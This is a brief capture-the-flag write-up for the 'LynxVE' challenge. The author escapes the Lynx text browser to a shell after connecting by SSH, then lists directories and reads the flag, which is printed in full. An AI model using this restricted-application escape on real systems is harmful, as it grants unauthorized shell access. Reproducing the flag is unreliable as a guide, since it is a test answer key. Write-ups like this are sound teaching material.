 # LynxVE writeup

After connecting by ssh we are redirected to the Lynx text app... So we should escape from it by pressing the Esc + :! key to spawn the shell:
```
burgos1337@burgos1337-VirtualBox:~/Desktop$ ssh ctf@lynxve.wpictf.xyz
Password: 
Spawning your default shell.  Use 'exit' to return to Lynx.

sh-5.0$ ls
bin  boot  dev	etc  home  lib	lib64  mnt  opt  proc  root  run  sbin	srv  sys  tmp  usr  var
sh-5.0$ cd home
sh-5.0$ ls
ctf
sh-5.0$ cd ctf
sh-5.0$ ls
flag
sh-5.0$ cat flag
WPI{lynX_13_Gr8or_Th@n_Chr0m1Um}
sh-5.0$ ^C
sh-5.0$ exit
Connection to lynxve.wpictf.xyz closed.
burgos1337@burgos1337-VirtualBox:~/Desktop$
```